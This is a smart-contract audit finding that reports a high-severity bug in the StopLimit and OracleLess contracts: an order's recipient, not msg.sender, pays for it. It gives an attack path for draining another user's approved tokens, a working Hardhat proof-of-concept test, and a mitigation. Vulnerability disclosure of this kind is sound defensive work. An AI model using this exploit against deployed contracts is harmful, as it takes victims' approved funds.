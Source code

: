 Boxy Peach Jellyfish

High

# Recipient  Address Makes Transfers Instead of `Msg.Sender` In `StopLimit` and `OracleLess` Contract

### Summary

In Contracts(`StopLimit and OracleLess`) when an order is created the recipient to receive funds after a swap is made transfers funds instead of `msg.sender`.  

### Root Cause

In [stopLimit.sol:L162-L172](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L162-L172),

In [oracleLess.sol:L49](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L49), 

`recipient` is passed as owner address which proceeds to make a `safeTransferFrom()` after permit/approval has been granted.

### Internal pre-conditions

N/A

### External pre-conditions

N/A

### Attack Path

Create an order with a recipient address that has already approved or given permission to the `StopLimit.sol` or `OracleLess.sol` contract, when the order is created the recipient address will transfer the required tokens to the contract.

Approach: UserA is aware userB address has approved either the `StopLimit.sol` or `OracleLess.sol` contract to spend 100 tokenABC on their behalf, userA can create an order for tokenABC swap with userB address as recipient swapping userB tokenABC token at a price of their choice.

### Impact

- Given userA knowledge of userB tokenABC approval state, userB tokens will always be at the mercy of userA to swap around.

- `msg.sender` does not send funds when an order is created.

### PoC

Add this to [test/triggerV2/happyPath.ts](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/test/triggerV2/happyPath.ts).

```typescript

describe("Recipient Should Send Funds Instead Of Msg.sender", () => {
    const stopDelta = ethers.parseUnits("500", 8);
    const strikeDelta = ethers.parseUnits("100", 8);
    const strikeBips = 500;

    let orderId: BigInt;
    //setup
    before(async () => {
        //steal money for s.Frank
        await stealMoney(
            s.wethWhale,
            await s.Frank.getAddress(),
            await s.WETH.getAddress(),
            s.wethAmount
        );
    });

    it("Should send funds", async () => {
        const bobWethBalanceBeforeTx = await s.WETH.balanceOf(
            await s.Bob.getAddress()
        );

        const frankWethBalanceBeforeTx = await s.WETH.balanceOf(
            await s.Frank.getAddress()
        );

        const oracleLessWethBalanceBeforeTx = await s.WETH.balanceOf(
            await s.OracleLess.getAddress()
        );

        await s.WETH.connect(s.Frank).approve(
            await s.OracleLess.getAddress(),
            s.wethAmount
        );

        //Franks Pays For An Order Bob Creates With Frank As Recipient
        await s.OracleLess.connect(s.Bob).createOrder(
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            s.wethAmount,
            0,
            await s.Frank.getAddress(), // recipient
            25,
            false,
            "0x"
        );

        const bobWethBalanceAfterTx = await s.WETH.balanceOf(
            await s.Bob.getAddress()
        );

        expect(bobWethBalanceAfterTx).to.eq(
            bobWethBalanceBeforeTx,
            "Bob WETH balance is same after Tx"
        );

        const frankWethBalanceAfterTx = await s.WETH.balanceOf(
            await s.Frank.getAddress()
        );

        expect(frankWethBalanceBeforeTx).to.gt(
            frankWethBalanceAfterTx,
            "Frank now has less WETH balance after Tx"
        );

        const oracleLessWethBalanceAfterTx = await s.WETH.balanceOf(
            await s.OracleLess.getAddress()
        );
        expect(oracleLessWethBalanceAfterTx).to.gt(
            oracleLessWethBalanceBeforeTx,
            "Bracket now has more WETH balance after Tx"
        );
    });
});
```

The POC above is for `OracleLess.sol`, POC for `StopLimit.sol` follows same approach simply replace `OracleLess` contract address with `StopLimit` address and the necessary params changes.

### Mitigation

In [stopLimit.sol:L162-L172](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L162-L172) and in [oracleLess.sol:L49](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L49), 

`msg.sender` should be passed in the place of `recipient`.

`require(recipient != address(0), "recipient address zero")` should be added as well.

